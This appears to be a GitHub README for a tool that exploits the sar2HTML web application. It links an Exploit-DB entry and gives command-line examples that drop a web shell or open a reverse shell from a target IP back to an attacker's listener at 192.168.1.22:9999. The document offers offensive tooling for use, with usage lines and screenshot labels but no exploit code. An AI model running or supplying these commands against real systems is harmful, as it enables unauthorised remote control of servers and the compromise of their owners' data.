



# sar2THML
Reverse Shell for sar2HTML (Basic web and reverse)

# Details

You can use the old exploit if not try a new folder (admin may have moved the install directory)
https://www.exploit-db.com/exploits/47204

# Usage: ./sar2HTML -ip HOST IP -rip IP:PORT -pe folder

# Exmaples:

./sar2HTML -ip 192.168.1.81 -rip 192.168.1.22:9999 -pe sar2HTML (Reverse Shell)

./sar2HTML -ip 192.168.1.81 (Baisc Web Shell)

Basic check

WebShell

ReverseShell

